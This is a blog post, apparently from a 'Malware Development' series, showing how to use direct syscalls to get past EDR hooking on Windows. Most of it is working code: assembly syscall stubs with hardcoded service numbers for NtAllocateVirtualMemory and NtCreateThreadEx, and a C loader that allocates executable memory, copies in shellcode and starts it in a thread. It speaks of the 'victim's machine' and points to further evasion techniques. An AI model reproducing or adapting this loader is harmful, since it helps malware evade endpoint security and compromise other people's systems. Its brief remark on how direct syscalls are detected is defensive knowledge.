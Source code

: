 ```yaml
---
title: "EDR Evasion 101 - Pt 3: Direct Syscall"
description: Demonstration of the use of direct syscalls to evade hooking carried out by EDR, in addition to its advantages and possible forms of improvement. 
author: Oblivion
date: 2024-01-22 11:33:00 +0800
categories: [Malware Development]
tags: []
pin: true
math: true
mermaid: true
---
```


This is a very easy way to evade hooking, because we simply perform the direct syscall of our code without needing to use the hooked API. A brief representation of how this technique works:

![img](../commons/direct_syscall/img1.png)

## How make this

Well, first we should know about the stub syscall, it looks like the following:

```
    mov r10, rcx
    mov eax, <SSN>
    syscall
    ret
```

The Service Syscall Number, known as SSN, is the identification number assigned to each syscall function. Now that we understand about the syscall stub and SSN, we can move on. To perform direct syscalls, it is necessary to have the stub in an .asm assembly code. In our C code, we use EXTERN_C to declare the function, informing the compiler that this function exists somewhere in the code. We then compile our C and .asm assembly codes to object files and finally link them. I will demonstrate the process, but first, let's learn how to find out the SSN of functions on our machine. The SSN varies depending on the machine version, which can be an obstacle to performing direct syscalls. I'll show you how to find the SSN of a role:

Opening x64dbg, go to C:\Windows\System32\ntdll.dll and attach it, then go to the "Symbols" tab and search for the function to be used.

![img](../commons/direct_syscall/img2.png)

which will take us to the syscall stub screen where we can see the NtAllocateVirtualMemory SSN equivalent to 18.

![img](../commons/direct_syscall/img3.png)

I will carry out the same process to find out the SSN of NtCreateThreadEx, I will create an .asm file to create the stub of the two functions, result below.

```
.code
    SysFuncAlloc PROC
        mov r10, rcx
        mov eax, 18h
        syscall
        ret
    SysFuncAlloc ENDP

    SysFuncThread PROC
        mov r10, rcx
        mov eax, 0C7h
        syscall
        ret
    SysFuncThread ENDP
end
```

Now I will create a C file as .h containing the function definition, note that the name has to be the same as defined in the .asm file.

```c
EXTERN_C NTSTATUS SysFuncAlloc(
  IN HANDLE           ProcessHandle,    
  IN OUT PVOID        *BaseAddress,    
  IN ULONG_PTR        ZeroBits,         
  IN OUT PSIZE_T      RegionSize,      
  IN ULONG            AllocationType,   
  IN ULONG            Protect           
);

EXTERN_C NTSTATUS SysFuncThread(
    OUT PHANDLE                 ThreadHandle,         
    IN 	ACCESS_MASK             DesiredAccess,        
    IN 	POBJECT_ATTRIBUTES      ObjectAttributes,     
    IN 	HANDLE                  ProcessHandle,        
    IN 	PVOID                   StartRoutine,        
    IN 	PVOID                   Argument,            
    IN 	ULONG                   CreateFlags,         
    IN 	SIZE_T                  ZeroBits,            
    IN 	SIZE_T                  StackSize,           
    IN 	SIZE_T                  MaximumStackSize,    
    IN 	PPS_ATTRIBUTE_LIST      AttributeList       
);
```

Now creating the main file where we will perform a simple injection using direct syscalls.

```c
LPVOID lpAllocationStart = NULL;
SIZE_T szshell = sizeof( shellcode );
HANDLE hProcess = GetCurrentProcess();
HANDLE hThread;

NTSTATUS status = SysFuncAlloc(hProcess, &lpAllocationStart, 0, &szshell, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
if (!NT_SUCCESS(status)){
	printf("[!] NtAllocateVirtualMemory Failed With Status : 0x%0.8X \n", status); 
	return 1;
}

printf("[*] Allocated memory at 0x%p\n", lpAllocationStart);

memcpy(lpAllocationStart, shellcode, szshell);

NTSTATUS status2 = SysFuncThread(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, lpAllocationStart, NULL, NULL, NULL, NULL, NULL, NULL);
if (!NT_SUCCESS(status2)){
	printf("[!] NtCreateThreadEx Failed With Status : 0x%0.8X \n", status); 
	return 1;
}

printf("[+] Thread Created\n");

WaitForSingleObject(hThread, INFINITE);
CloseHandle(hThread);

return 0;
```

# References

You might ask, "How would I find out the SSN of the victim's machine?" For that, I recommend reading about the concept of [HellsGate](https://redops.at/en/blog/exploring-hells-gate). It dynamically resolves the SSN and allows you to make direct calls efficiently.

# Disadvantages of Direct Syscall

Direct syscalls are easily detected because, in the Windows operating system, it is uncommon for code outside of ntdll.dll to perform syscalls. Therefore, simply search for the opcode of the "syscall" instruction, among other available detection methods such kernel routines and etc.

To avoid this, you can use Indirect Syscall, which is to execute the syscall directly from ntdll, for more information, you can use [HellsHall](https://github.com/Maldev-Academy/HellHall).

## [Code Repository](https://github.com/Entropy-z/EDR_Evasion_101/tree/master/direct_syscall)

